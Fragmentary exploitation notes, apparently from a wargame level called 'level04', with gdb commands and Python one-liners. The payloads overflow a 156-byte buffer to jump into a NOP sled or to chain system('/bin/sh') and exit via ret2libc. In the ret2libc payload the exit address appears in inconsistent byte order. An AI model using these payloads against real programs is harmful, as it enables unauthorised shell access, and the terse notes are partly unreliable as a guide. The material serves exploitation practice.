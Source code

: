 saved eip 0xf7e45513

info variable environ

export SHELLCODE=`python -c 'print "\x31\xc0\xb0\x01\x31\xdb\xcd\x80"'`
0xffffd84c
0xffffd862
(python -c 'print "\x90"*156 + "\x4c\xd8\xff\xff"') | ./level04

r < <(python -c 'print "A"*156 + "\x4c\xd8\xff\xff"')

gcc -m32 -o get_env_addr get_env_addr.c
set follow-fork-mode child

# On recule de 32 bytes pour être sûr de tomber dans le NOP sled
(python -c 'print "\x90"*156 + "\x2c\xd8\xff\xff"') | ./level04


0xf7 f8 97 ec bin/sh
0xf7 e6 ae d0 system
0xf7 e5 eb 70 exit

ret2lib
 
(python -c 'print "\x90"*156 + "\xd0\xae\xe6\xf7" + "\xf7\xe5\xeb\x70" + "\xec\x97\xf8\xf7"'; cat) | ./level04

r < <(python -c 'print "\x90"*156 + "\xd0\xae\xe6\xf7" + "\xf7\xe5\xeb\x70" + "\xec\x97\xf8\xf7"')
